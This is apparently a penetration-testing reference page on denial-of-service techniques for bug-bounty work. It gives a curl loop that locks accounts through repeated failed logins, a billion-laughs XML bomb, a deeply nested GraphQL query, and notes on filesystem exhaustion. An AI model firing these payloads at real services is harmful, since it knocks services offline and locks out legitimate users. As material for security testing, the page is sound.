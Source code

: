 # Denial of Service

> A Denial of Service (DoS) attack aims to make a service unavailable by overwhelming it with a flood of illegitimate requests or exploiting vulnerabilities in the target's software to crash or degrade performance. In a Distributed Denial of Service (DDoS), attackers use multiple sources (often compromised machines) to perform the attack simultaneously.


## Summary

* [Examples](#examples)
    * [Locking Customer Accounts](#locking-customer-accounts)
    * [File Limits on FileSystem](#file-limits-on-filesystem)
    * [Memory Exhaustion - Technology Related](#memory-exhaustion---technology-related)
* [References](#references)


## Examples

### Locking Customer Accounts

Example of Denial of Service that can occur when testing customer accounts. 
Be very careful as this is most likely **out-of-scope** and can have a high impact on the business.

* Multiple attempts on the login page when the account is temporary/indefinitely banned after X bad attempts.
    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```


### File Limits on FileSystem

When a process is writing a file on the server, try to reach the maximum number of files allowed by the filesystem format. The system should output a message: `No space left on device` when the limit is reached.
 
| Filesystem | Maximum Inodes |
| ---        | --- |
| BTRFS      | 2^64 (~18 quintillion) |
| EXT4       | ~4 billion |
| FAT32      | ~268 million files |
| NTFS       | ~4.2 billion (MFT entries) |
| XFS        | Dynamic (disk size) |
| ZFS        | ~281 trillion |

An alternative of this technique would be to fill a file used by the application until it reaches the maximum size allowed by the filesystem, for example it can occur on a SQLite database or a log file.

FAT32 has a significant limitation of **4 GB**, which is why it's often replaced with exFAT or NTFS for larger files.

Modern filesystems like BTRFS, ZFS, and XFS support exabyte-scale files, well beyond current storage capacities, making them future-proof for large datasets.


### Memory Exhaustion - Technology Related

Depending on the technology used by the website, an attacker may have the ability to trigger specific functions or paradigm that will consume a huge chunk of memory.

* **XML External Entity**: Billion laughs attack/XML bomb
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
* **GraphQL**: Deeply-nested GraphQL queries.
    ```ps1
    query { 
        repository(owner:"rails", name:"rails") {
            assignableUsers (first: 100) {
                nodes {
                    repositories (first: 100) {
                        nodes {
                            
                        }
                    }
                }
            }
        }
    }
    ```
* **Image Resizing**: try to send invalid pictures with modified headers, e.g: abnormal size, big number of pixels.
* **SVG handling**: SVG file format is based on XML, try the billion laughs attack.
* **Regular Expression**: ReDoS


## References

- [DEF CON 32 - Practical Exploitation of DoS in Bug Bounty - Roni Lupin Carta - October 16, 2024](https://youtu.be/b7WlUofPJpU)
- [Denial of Service Cheat Sheet - OWASP Cheat Sheet Series - July 16, 2019](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)